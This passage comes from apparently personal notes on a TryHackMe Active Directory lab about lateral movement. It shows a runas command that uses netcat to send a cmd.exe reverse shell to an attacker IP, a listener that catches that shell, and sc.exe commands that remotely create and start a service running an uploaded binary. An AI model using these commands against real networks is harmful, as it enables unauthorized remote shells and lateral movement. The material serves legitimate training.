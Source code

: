 ```powershell
C:\> runas /netonly /user:ZA.TRYHACKME.COM\t1_leonard.summers "c:\tools\nc64.exe -e cmd.exe 10.50.49.2 4443"
```

**Note: Remember that since you are using `runas` with the `/netonly` option, it will not bother to check if the provided credentials are valid (more info on this on the `Enumerating AD room`), so be sure to type the password correctly. If you don't, you will see some `ACCESS DENIED` errors later in this room.**

- We can receive the `reverse shell` connection using `nc` in our AttackBox:

```bash
user@AttackBox$ nc -lvp 4443
```

<u>In the VM</u>:

![](/assets/img/Pasted image 20230205221703.png)

	- Got the shell.


##### And finally, proceed to create a new service remotely by using `sc`, associating it with our uploaded binary:
**Format**:

```shell-session
C:\> sc.exe \\thmiis.za.tryhackme.com create <service_name> binPath= "%windir%\<uploaded-bin>.exe" start= auto
C:\> sc.exe \\thmiis.za.tryhackme.com start <service_name>
```

		- Remember to create a variant of the Service Names since many users are also using that!

**Actual**:

```powershell
C:\> sc.exe \\thmiis.za.tryhackme.com create THMservice-DANGER binPath= "%windir%\dopedope.exe" start= auto
```

<u>In the VM</u>:

![](/assets/img/Pasted image 20230205221928.png)

	- View on the other reverse shell (the one with Ncat.exe)

```powershell
C:\> sc.exe \\thmiis.za.tryhackme.com start THMservice-DANGER
```

<u>In the VM</u>:

![](/assets/img/Pasted image 20230205222029.png)

	- Okay, so basically, we created and started the service from the THMJMP2 machine (1st machine to jump from).

##### Checking the msfconsole handler exploit:
